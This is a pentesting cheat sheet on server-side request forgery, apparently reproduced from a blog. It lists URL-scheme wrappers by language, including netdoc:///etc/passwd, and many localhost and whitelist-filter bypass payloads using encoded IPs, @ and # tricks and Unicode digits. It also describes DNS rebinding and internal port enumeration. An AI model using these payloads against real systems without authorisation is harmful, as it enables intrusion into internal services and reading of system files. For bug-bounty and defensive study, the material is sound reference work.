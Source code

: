 Yo.
<br>
<br>
https://highon.coffee/blog/ssrf-cheat-sheet/
<br>
<br>

What is SSRF?
Server Side Request Forgery (SSRF) is a web vulnerability that allows an attacker to exploit vulnerable functionality to access server side or local network services / functionality by affectively traversing the external firewall using vulnerable web functionality.

Another way to think of this would be to imagine the web applications vulnerable function is a web browser, that will allow you to pivot / relay request to the internal interface addresses, loopback or internal network to access services (effectively traversing the WAF or firewall).

An example of this could be a web function that allows the adding of a URL or third-party service, this could then be exploited to access internal or local IP address.

After identifying SSRF on applications running modern frameworks or a WAF, more work will be required in an effort to defeat the protection / filtering that is in place, and allow for successful SSRF exploitation.

Identifying Potential Locations for SSRF
Any functionality that allows external service interaction is a good stating point, any where that accepts a third party URL or service integration.

How to Find SSRF Vulnerabilities
In order to identify a SSRF vulnerability the first step is confirming that the functionality is vulnerable, an easy / scalable way to do this is using your own Burp Collaborator on Linode using this link to get a $100 voucher. Burp Collaborator will easily allow you to assess if out-of-band interaction is possible (the target server directly accessing a server you control).

PRO TIP: Run Your Own Collaborator Server
If you are taking part in bug bounty programs run your own Burp Collaborator server as often the default Burp Collaborator service domain is filtered, giving you an increased chance of detection.

Linode works great for this, it's cheap, fixed price and has a direct public IP address.

It should be noted that a function may still, potentially be vulnerable even if not identifid via Burp Collaborator, this is typically due to the target server not allowing outbound dns or strict egress firewall rules.

SSRF Whitelist Filter Bypass
Timing Difference
At the detection phase, try timing difference on responses to see if there is filtering in place when different domains, IP’s or ports are being fitlered.

URL Schema / Wrappers
The following URL schemas can be potentially exploited by SSRF vulnerabilies.

The URL schemas have been sorted by framework / language.

PHP SSRF Wrappers / URL Schema
The following wrappers are potentiall expected URL schema wrappers found within PHP environments (for some schema curl-wrappers would need to be enabled).

gopher://
fd://
expect://
ogg://
tftp://
dict://
ftp://
ssh2://
file://
http://
https://
imap://
pop3://
mailto://
smtp://
telnet://
ASP.NET SSRF Wrappers / URL Schema
The following wrappers are potentiall expected URL schema wrappers found within ASP.NET environments (gopher legacy only).

gopher://
ftp://
file://
http://
https://
Java SSRF Wrappers / URL Schema
The following wrappers are expected within Java environments, and can be used to potentially exploit LFI vulnerabilities.

 
ftp://
file://
http://
https://
gopher://
netdoc:///etc/passwd
netdoc:///etc/hosts
jar:proto-schema://blah!/
jar:http://localhost!/
jar:http://127.0.0.1!/
jar:http://0.0.0.0!/
jar:ftp://local-domain.com!/
NOTE: OpenJDK 8+ Redirects
It should be noted that OpenJDK 8+ does not follow redirects if the protocols do not match.

cURL SSRF Wrappers / URL Schema
The following wrappers are expected with environments using cURL.

file:///
dict://
sftp://
ldap://
tftp://
gopher://
ssh://
http://
https://
imap://
pop3://
smtp://
telnet://
Open Redirect SSRF Bypass
Open redirects can potentially be used to bypass server side whitelist filtering, by appearing to be from the target domain (which has an increased chance of being whitelisted).

Example:

/foo/bar?vuln-function=http://127.0.0.1:8888/secret
Basic locahost bypass attempts
Localhost bypass:

All IPv4: 0
All IPv6: ::
All IPv4: 0.0.0.0
Localhost IPv6: ::1
All IPv4: 0000
All IPv4: (Leading zeros): 00000000
IPv4 mapped IPv6 address: 0:0:0:0:0:FFFF:7F00:0001
8-Bit Octal conversion: 0177.00.00.01
32-Bit Octal conversion: 017700000001
32-Bit Hex conversion: 0x7f000001
various bypasses:

127.0.0.1:80
127.0.0.1:443
127.0.0.1:22
127.1:80
0
0.0.0.0:80
localhost:80
[::]:80/
[::]:25/ SMTP
[::]:3128/ Squid
[0000::1]:80/
[0:0:0:0:0:ffff:127.0.0.1]/thefile
①②⑦.⓪.⓪.⓪
127.127.127.127
127.0.1.3
127.0.0.0
2130706433/
017700000001
3232235521/
3232235777/
0x7f000001/
0xc0a80014/
{domain}@127.0.0.1
127.0.0.1#{domain}
{domain}.127.0.0.1
127.0.0.1/{domain}
127.0.0.1/?d={domain}
{domain}@127.0.0.1
127.0.0.1#{domain}
{domain}.127.0.0.1
127.0.0.1/{domain}
127.0.0.1/?d={domain}
{domain}@localhost
localhost#{domain}
{domain}.localhost
localhost/{domain}
localhost/?d={domain}
127.0.0.1%00{domain}
127.0.0.1?{domain}
127.0.0.1///{domain}
127.0.0.1%00{domain}
127.0.0.1?{domain}
127.0.0.1///{domain}st:+11211aaa
st:00011211aaaa
0/
127.1
127.0.1
1.1.1.1 &@2.2.2.2# @3.3.3.3/
127.1.1.1:80\@127.2.2.2:80/
127.1.1.1:80\@@127.2.2.2:80/
127.1.1.1:80:\@@127.2.2.2:80/
127.1.1.1:80#\@127.2.2.2:80/
hosts file bypass attempts
Enclosed Alphanumeric
http://⑯⑨。②⑤④。⑯⑨｡②⑤④/
http://⓪ⓧⓐ⑨｡⓪ⓧⓕⓔ｡⓪ⓧⓐ⑨｡⓪ⓧⓕⓔ:80/
DNS rebinding attempts
What is a DNS rebinding attack?
In certain situations a target function may check a hostname “blindly” against a whitelist/blacklist without verification of the the resolution IP address. Once the hostname has been determined OK by the above function it is then passed to the function which it is intended to protect.

How to exploit a vulnerable function
You can setup a DNS server that resolves to the whitelist, then have a short TTL which changes to the IP you want to exploit e.g. 127.0.0.1 for SSRF, or any other internal IP.

Fortunately taviso has built a service for this which you can use to generate a dword subdomain and use against your target. The downside to this service is that it appears to flip the resolution IP back and forth, so it may change during the attack.

You can use the follow web app to generate your rebinder domain: https://lock.cmpxchg8b.com/rebinder.html

To overcome this issue, have one of the resolution IP addresses in your control and verify the response of that IP request, to help determine if the target functionality is vulnerable.

go to https://lock.cmpxchg8b.com/rebinder.html add your IP’s
check it works with host
attempt to exploit the SSRF location with it
Post Exploitation / Enumeration
In an effort to demonstrate the severity of the SSRF vulnerability enumeration of server side ports could be performed using Burp Intruder.

The above process could be performed to enumerate other local IP addresses and/or bruteforcing URL (IDOR / Forced Browsing) to identify services or functionality that was not intended by the organisation.

Happy hunting / pen testing.
